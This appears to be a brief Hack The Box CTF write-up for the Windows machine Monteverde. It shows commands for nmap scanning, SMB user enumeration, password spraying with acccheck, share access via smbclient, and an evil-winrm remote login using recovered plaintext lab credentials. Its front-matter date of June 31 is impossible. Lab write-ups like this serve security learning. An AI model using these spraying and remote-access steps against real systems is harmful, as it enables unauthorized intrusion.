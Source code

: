 ```yaml
---
title:  "Hack The Box - Monteverde"
date:   2020-06-31
categories: [ctf]
tags: [Windows, writeups, ctf]
---
```

My write-up / walktrough for the machine `Moneverde` on Hack The Box.

![info](/images/monteverde/info.png)

## nmap
`nmap -sTV -p 1-10000 -Pn -oN nmap_tcp_scan monteverde.htb
`

![nmap](/images/monteverde/nmap.png)

`enum4linux -U monteverde.htb`

![enum4linux](/images/monteverde/enum4linux.png)

` ./acccheck/acccheck.pl -t monteverde.htb -U users.txt -P users.txt `

![acccheck](/images/monteverde/acccheck.png)

SABatchJobs:SABatchJobs

`smbclient \\\\monteverde.htb\\users$ -U SABatchJobs`

![smbmap](/images/monteverde/smbmap.png)

so getting and showing this file, I got `4n0therD4y@n0th3r$`

![azure](/images/monteverde/azure_creds.png)


mhope:4n0therD4y@n0th3r$

evil-winrm -i monteverde.htb -u mhope -p 4n0therD4y@n0th3r$

![userflag](/images/monteverde/userflag.png)